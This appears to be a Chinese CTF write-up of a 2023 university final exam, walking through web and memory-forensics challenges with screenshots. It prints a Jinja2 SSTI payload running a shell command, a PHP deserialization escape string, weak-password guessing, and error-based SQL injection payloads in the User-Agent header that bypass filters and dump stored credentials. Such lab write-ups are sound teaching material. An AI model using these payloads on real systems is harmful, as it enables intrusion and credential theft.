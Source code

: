 # 2023云曦期末复现

**目录**

[TOC]







## WEB

### sign



<img src="https://i-blog.csdnimg.cn/blog_migrate/1363c29bf0f0d1798e0f02aeab3b374d.png" alt="" style="max-height:291px; box-sizing:content-box;" />


有10000个

进行bp爆破



<img src="https://i-blog.csdnimg.cn/blog_migrate/dc7be7a8a919052d69d5be558cc83ead.png" alt="" style="max-height:398px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/26e63e2cbe05d6a20ff42fe1428f7622.png" alt="" style="max-height:144px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/a0cd934f0bec944d0145aa927b509b2f.png" alt="" style="max-height:298px; box-sizing:content-box;" />


能发现 410 和 414长度 还有 420

410 414存在16进制的字符

拼凑出来为

```cobol
\x66\x6c\x61\x67\x7b\x61\x63\x63\x39\x39\x66\x39\x30\x34\x66\x30\x65\x61\x66\x61\x34\x31\x63\x30\x36\x34\x33\x36\x38\x31\x35\x33\x39\x30\x66\x62\x65\x7d
```

解密

```cobol
flag{acc99f904f0eafa41c06436815390fbe}
```

### SSTI

打开后直接提示SSTI

<img src="https://i-blog.csdnimg.cn/blog_migrate/3200ff666ea5791e554be976b84eda19.png" alt="" style="max-height:145px; box-sizing:content-box;" />


```cobol
/?Baby={{1*2}}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/fcd67a1e488404619766384b6f3639b4.png" alt="" style="max-height:93px; box-sizing:content-box;" />


确定是SSTI漏洞

```handlebars
{{config.__class__.__init__.__globals__['os'].popen('cat /flag').read()}}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/87388a253824a056ffeb5e7a1cd35b5b.png" alt="" style="max-height:93px; box-sizing:content-box;" />




### serialize

字符串逃逸



<img src="https://i-blog.csdnimg.cn/blog_migrate/dceba84820a47276f334a9bf2674e317.png" alt="" style="max-height:700px; box-sizing:content-box;" />




```cobol
?1=1=ctfctfctfctfctfctfctfctfctfctf";s:8:"password";s:5:"yunxi";}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/6ccc307d7c1b24bd564c3af07e1f9936.png" alt="" style="max-height:132px; box-sizing:content-box;" />


## MISC

### who's_computer

```cobol
1.这位同学的电脑用户名叫什么(即C:\Users\{name})
2.最后一次运行计算器的时间？(格式为yyyy-mm-dd_hh:mm:ss，注意冒号为英文冒号)
flag格式为flag{xxx} xxx为md5(答案一_答案二)，例如答案一为hacker,答案二为2023-06-26_07:00:55,xxx为hacker_2023-06-26_07:00:55md5加密后的值3ae0d7baa880f348ae91a0af8ee68cc
 
内存取证-2
1.这位同学使用了一款聊天软件，请问此软件的版本号为?
2.这位同学在网页上登录了自己的邮箱，请问这位同学的邮箱是？
例如版本号为10.9.331,邮箱为947819814@qq.com,xxx为10.9.331_947819814@qq.com
 
内存取证-3
1.这位同学最后一次运行固定在任务栏的google chrome的时间(格式为yyyy-mm-dd_hh:mm:ss，注意冒号为英文冒号)
2.这位同学解压了从chrome下载了一个压缩文件，此文件的相关内容信息已经写入了到环境中，请问文件的内容是？
例如时间为2023-01-17_20:28:17,内容为part2，xxx为2023-01-17_20:28:17_part2
```

三道题目

#### 第一道

```rust
volatility_2.6_win64_standalone.exe -f who's_computer.raw --profile=Win7SP1x64 filescan | grep "user" 
```

提取出有关 user 的信息



<img src="https://i-blog.csdnimg.cn/blog_migrate/5766711f5ed289969e90e25961389dec.png" alt="" style="max-height:117px; box-sizing:content-box;" />


这里就能发现是JiaJia



```rust
volatility_2.6_win64_standalone.exe -f who's_computer.raw --profile=Win7SP1x64 timeliner | grep "calc" 
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/46bfa7131eec099c131af26e584467a9.png" alt="" style="max-height:57px; box-sizing:content-box;" />


这里就提取到了 时间 但是这个时间不是中国的时间 所以我们进行转换

```cobol
2021-12-10 20:15:47
```

### sql

弱口令爆破一下





```cobol
admin
admin123
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/b358b64efcd13768d58781e930a139c1.png" alt="" style="max-height:128px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/07ace1f4527961521c9d8e5b9fc9de35.png" alt="" style="max-height:321px; box-sizing:content-box;" />


然后发现回显为UA

那么多半就是UA注入

测试一下

```sql
User-Agent: '
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/35ccb3c86fe5ed545fd37641f85b4cc9.png" alt="" style="max-height:222px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/299cb9e32f164b4c5261396f30ef3180.png" alt="" style="max-height:105px; box-sizing:content-box;" />


果然发生了报错

看看闭合

```sql
User-Agent:'1'
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/08c2dc37bfb9fe3e55ad23149fa47b81.png" alt="" style="max-height:62px; box-sizing:content-box;" />


发现了3个参数

我们直接注释掉后面两个

```cobol
User-Agent:',1,2)-- +

' and updatexml(1,0x7e,3),1,2)-- 
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/90f5409580a5de1f11f0cdd54b31f40f.png" alt="" style="max-height:78px; box-sizing:content-box;" />


发现过滤

我们fuzz一下

看看



<img src="https://i-blog.csdnimg.cn/blog_migrate/009bf4701da965bdacde677dbfb71804.png" alt="" style="max-height:233px; box-sizing:content-box;" />


发现了

updatexml 不可以   floor也不可以 那就说明就是通过extractvalue来报错注入了

```vbnet
' or extractvalue(1,concat(0x7e,(select database()))),1,2)-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/1d6a95211bfa4f96cb84363356218751.png" alt="" style="max-height:71px; box-sizing:content-box;" />


得到数据库

```undefined
kind
```

#### 等于过滤了 使用 like

```haskell
' or extractvalue(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema  like 'kind'))),1,2)-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/2d8a631b5b81c5488338e9b648e832bc.png" alt="" style="max-height:55px; box-sizing:content-box;" />


```haskell
' or extractvalue(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_name like'sheet1'))),1,2)-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/862e6983503241b96d37b2e18384a93a.png" alt="" style="max-height:50px; box-sizing:content-box;" />




查值

```vbnet
' or extractvalue(1,concat(0x7e,(select group_concat(username,password)from kind.sheet1))),1,2)-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/620c7271639b03dc9fa9174ba6a475fa.png" alt="" style="max-height:62px; box-sizing:content-box;" />




发现长度受限

substr被过滤了

我们看看limit可不可以

```vbnet
' or extractvalue(1,concat(0x7e,(select concat(password)from kind.sheet1 limit 1,1))),1,2)-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/f6ab465f83d05fb2333a3762e5991e27.png" alt="" style="max-height:132px; box-sizing:content-box;" />


发现还没有显示完整

#### substr过滤我们就使用mid





<img src="https://i-blog.csdnimg.cn/blog_migrate/6a9d864bc1649a6b99f0cda6e3e62e43.png" alt="" style="max-height:104px; box-sizing:content-box;" />


这样就得到了flag